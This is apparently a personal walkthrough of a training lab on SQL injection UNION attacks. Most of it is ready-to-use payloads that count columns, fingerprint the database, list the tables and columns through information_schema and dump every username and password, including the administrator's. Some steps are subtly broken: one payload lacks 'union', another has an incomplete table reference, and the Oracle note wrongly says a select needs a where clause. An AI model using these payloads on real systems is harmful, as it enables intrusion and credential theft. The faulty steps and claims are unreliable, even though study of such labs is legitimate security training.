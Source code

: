 # For non-Oracle database  

You can list the tables in the database by:  
` select * from inofrmation_schema.tables`  

You can list the columns in individual tables by:  
` select * from information_schema.columns where table_name = 'users'`  


The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.  


1. Find the number of columns  
`' order by 1 --`  
-> 200 ok  
` ' order by 3 --`  
-> 500 error  
-- There are two columns in the table  

2. Find the data type of the columns  
` ' union select 'a', NULL --`  
-> 200 OK: the first column is text type  
` ' union select NULL, 'a' --`  
-> 200 OK: the second column is text type  

3. Find the version of the database  
` ' union select @@version, NULL -- `  
-- Microsoft & MySQL database  
` ' union select version(), NULL --`  
-- PostgreSQL database  

4. Output the list of table names in the database  
` ' union select table_name, NULL from information_schema --`  
-> 200 OK: You will get all the table names.  
-- information_schema in PostgreSQL has table names such as table_name, column_name etc.

5. Ouput the column names of the table  
` ' select column_name, NULL from information_schema.columns where table_name = 'users_xacgsm' --`  
-> 200 OK: we get the username.  
--  information_schema.columns in PostgreSQL has column names such as column_name, table_name etc.  

6. Output the usernames and passwords.  
` ' union select username_pxqwui, password_bgvoxs from user_xacgsm --`  
-> 200 OK: we get the username 'administrator' and its corresponding password.  


# For Oracle database:  

Basiclly they have similar approaches to achieve the results.  

We need to keep in mind that Oracle database needs to have select clause followed by where clause.  

And remember to google the structure of information_schema and information_schema.columns in Oracle database.  
